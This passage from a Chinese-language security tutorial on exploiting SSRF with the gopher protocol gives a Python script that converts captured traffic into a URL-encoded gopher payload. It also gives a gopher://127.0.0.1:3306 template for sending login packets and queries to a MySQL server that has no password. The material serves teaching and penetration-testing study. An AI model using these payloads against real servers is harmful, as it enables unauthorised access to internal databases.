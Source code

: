 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210111225155.png-water_print](assets/1699411601-e91eabc5b0da9e4e67f8370258aea9f8.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210111225155.png-water_print")

流量转换

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>``` | ```python<br># coding: utf-8<br>import sys<br><br>exp = ''<br><br>with open(sys.argv[1]) as f:<br>    for line in f.readlines():<br>        if line[0] in '><+':<br>            continue<br>        # 判断倒数第 2、3 字符串是否为 \r<br>        elif line[-3:-1] == r'\r':<br>            # 如果该行只有 \r，将 \r 替换成 %0a%0d%0a<br>            if len(line) == 3:<br>                exp = exp + '%0a%0d%0a'<br>            else:<br>                line = line.replace(r'\r', '%0d%0a')<br>                # 去掉最后的换行符<br>                line = line.replace('\n', '')<br>                exp = exp + line<br>        # 判断是否是空行，空行替换为 %0a<br>        elif line == '\x0a':<br>            exp = exp + '%0a'<br>        else:<br>            line = line.replace('\n', '')<br>            exp = exp + line<br>print exp<br>``` |

#### [](#232-gopher-%E5%AF%B9-mysql-%E7%9A%84%E5%88%A9%E7%94%A8)2.3.2 Gopher 对 Mysql 的利用

前提：

-   存在 SSRF 漏洞
-   MySQL 无密码

Gopher 协议转化

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```fallback<br>gopher://127.0.0.1:3306/_<br>+ url 编码的登录请求<br>+ 包长度(wireshark 抓包时可以直接看到 Packet Length)<br>+ %00%00%00%03<br>+ 查询语句(URL 编码)<br>+ %01%00%00%00%01<br>``` |
